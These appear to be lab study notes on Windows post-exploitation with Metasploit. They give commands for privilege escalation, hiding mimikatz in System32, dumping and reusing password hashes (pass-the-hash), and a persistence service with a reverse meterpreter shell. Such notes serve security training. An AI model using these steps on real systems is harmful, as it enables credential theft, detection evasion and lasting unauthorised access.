 	sysinfo
	getuid
	getsystem 
	getuid
	```


## Token Impersonation
- Can be done with the metaspoloit module ![[Modules#Incognito Module]]
## Dumping Hashes w/ Kiwi Extension
- ![[Modules#Kiwi Module]]
- You can upload the mimikatz binary on the Windows target machine:
	```
	upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
	<upload it in `System32` so that it can't be found>
	```
	
## Pass The Hash With PSExec
- Utlizing the captured hashes to elevate privileges
- First get the hashes with `post/windows/gather/hashdump`. Result would be like
	```
		Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
	bob:1008:aad3b435b51404eeaad3b435b51404ee:31b977436c6ea5bfa9ee65aaddb880d1:::
	```
- Use the two values after 500 i.e. `aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20` for #tools/multi/msfconsole #tools/exploit/psexec_py 
- Use `5c4d59391f656d5958dab124ffeabc20` with #tools/exploit/multi/crackmapexec 
## Establishing Persistence
- Making sure we always have a connection with the target machine even if it restarts or is shut down for a really long time
- Modules
	```
	search platform:windows persistence
	```
- Create a service
	```
	exploit/windows/local/persistence_service
	```
- Start a listener on the same port used for above and you will get a reverse shell automatically with `multi/handler` for the same port and payload used with `persistence_service` (`windows/meterpreter/reverse_tcp`)
	```
	use exploit/windows/http/rejetto_hfs_exec 
	setg rhosts 10.3.18.170
	run
	sysinfo
	getuid
	getsystem 
	getuid
	use exploit/windows/local/persistence_service 
	show options 
	set session 1
	set lhost eth1
	set payload windows/x64/meterpreter/reverse_tcp
	run
	set payload windows/meterpreter/reverse_tcp
	run